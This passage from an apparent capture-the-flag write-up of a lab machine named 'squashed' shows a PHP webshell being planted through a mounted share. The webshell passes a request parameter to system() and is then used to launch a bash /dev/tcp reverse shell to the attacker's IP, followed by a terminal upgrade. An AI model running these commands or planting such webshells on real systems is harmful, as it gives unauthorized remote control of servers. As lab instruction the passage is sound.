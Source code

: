 If I view this in Firefox and I see the entire file, that means that the server is just returning static files. On the other hand, if it only shows “0xdf was here!”, then the server must have executed the file as PHP, and returned only the output of that, showing that it is running PHP.

It is running PHP:

![image-20221111154526636](https://0xdfimages.gitlab.io/img/image-20221111154526636.png)

#### WebShell

I’ll overwrite `0xdf.php` with a proper simple PHP webshell:

```

dummy@hacky:/$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' 
<?php
  system($_REQUEST[cmd]);
?>
dummy@hacky:/$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/0xdf.php

```

This is going to take a parameter (GET or POST) named `cmd` and pass it into `system`, and the results will be returned.

Now if I just load the page, there’s nothing there. But if I add `?cmd=id` to the end:

![image-20221111160112917](https://0xdfimages.gitlab.io/img/image-20221111160112917.png)

#### Shell

To go from this webshell to a full reverse shell, I’ll just pass in a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as `cmd`:

```

bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'

```

For details on how this shell works, see [this video](https://www.youtube.com/watch?v=OjkVep2EIlw).

Before pasting this in, I’ll make sure my tun0 ip matches what’s in the command, and I’ll need to URL encode the `&` characters to `%26`, or else they will be treated as the end of the `cmd` parameter, with a new parameter following.

I’ll start `nc` listening on 443 (to match the port given above), and then load the page:

[![image-20221111160716229](https://0xdfimages.gitlab.io/img/image-20221111160716229.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20221111160716229.png)

The webpage just hangs, but there’s a shell as alex at the listening `nc`!

I’ll use the `script` / `stty` shell upgrade trick (details [here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):

```

alex@squashed:/var/www/html$ script /dev/null -c bash
Script started, file is /dev/null
alex@squashed:/var/www/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
alex@squashed:/var/www/html$ 

```
